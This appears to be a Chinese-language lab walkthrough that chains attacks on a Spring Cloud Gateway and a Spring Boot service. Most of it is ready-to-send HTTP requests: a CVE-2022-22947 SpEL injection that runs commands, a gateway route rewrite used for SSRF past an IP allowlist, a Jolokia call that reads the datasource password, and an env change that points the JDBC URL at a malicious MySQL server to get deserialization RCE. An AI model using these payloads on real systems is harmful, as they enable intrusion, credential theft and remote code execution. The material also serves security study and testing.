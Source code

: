 ## 概述

外网有俩服务，第一个是Springboot写的web服务，`/actuator`路由加了Springboot Security限制了内网IP白名单，攻击者没办法直接访问，只能访问正常的业务

第二个是SpringCloud Gateway，也有`/actuator`路由，而且是未授权访问。可以访问`/actuator/gateway/routes`获取到gateway转发的地址，从而访问`/oasystem`打第一个web服务的SSRF

通过SSRF第一个web服务的`/actuator`，一可以打MySQL JDBC 反序列化（不单单是这个，还有其他手法RCE）直接RCE，二可以打`/actuator/jolokia`，造成数据库密码泄露
RCE之后可以直接拿数据库密码连接MySQL

![](../images/oasystem.png)

## API unauth

使用APIKit扫描Gateway服务的API接口，得到`/actuator`未授权访问。使用CVE-2022-22947，进行RCE：

```http
POST /actuator/gateway/routes/test1 HTTP/1.1
Host: localhost:8000
Content-Length: 427
Content-Type: application/json
Connection: close

{
    "id": "test1",
    "filters": [
        {
            "name": "AddResponseHeader",
            "args": {
                "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}",
                "name": "cmd"
            }
        }
    ],
    "uri": "http://aaa.com",
    "order": 2
}

```

得到返回`HTTP/1.1 201 Created`之后，POST访问`/actuator/gateway/refresh`再GET访问`/actuator/gateway/routes/test1`可以得到命令执行的回显。



## tamper routes &&  SSRF

使用SPEL表达式注入，读取`/etc/hosts`文件发现有这么一行：

```
oasystem    172.192.1.10
```

于是我们知道了第一个服务的hosts以及内网IP地址，可以动态修改Gateway的路由来进行SSRF：

```http
POST /actuator/gateway/routes/oasystem HTTP/1.1
Host: localhost:8000
Connection: close
Content-Type: application/json
Content-Length: 404

{
    "id": "oasystem",
    "uri": "http://oasystem:8080",
    "filters": [
        {
            "name": "PreserveHostHeader",
            "args": {
                "_genkey_0": ""
            }
        }
    ],
    "predicates": [
        {
            "name": "Path",
            "args": {
                "_genkey_0": "/oasystem/**"
            }
        }
    ],
    "order": 0
}
```

再POST `/actuator/gateway/refresh`，进行路由配置的刷新，之后就可以在`/actuator/gateway/routes/`看到我们添加的路由了：

![](../images/oasystem_2.png)

访问Gateway服务的`/oasystem/actuator`路由即可绕过SpringSecurity的IP限制

## MySQL passwd leak

获取env，寻找`*`加密的密码

![](../images/oasystem_3.png)

获取*加密的密码

```http
POST /oasystem/actuator/jolokia HTTP/1.1
Content-Type: application/json
Host: localhost:8000
Connection: close
Content-Length: 205

{
    "mbean": "org.springframework.boot:name=SpringApplication,type=Admin",
    "operation": "getProperty",
    "type": "EXEC",
    "arguments": [
        "spring.datasource.password"
    ]
}
```



## MySQL JDBC deserialization to RCE

修改配置，指向恶意MySQL服务器

```http
POST /oasystem/actuator/env HTTP/1.1
Content-Type: application/json
Host: localhost:8000
Content-Length: 215

{"name":"spring.datasource.url","value":"jdbc:mysql://IP:PORT/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"}
```

刷新配置

```http
POST /oasystem/actuator/refresh HTTP/1.1
Host: localhost:8000
Content-Length: 0


```

用户操作，触发SQL查询，RCE。

更多攻击手法请见：https://github.com/LandGrey/SpringBootVulExploit

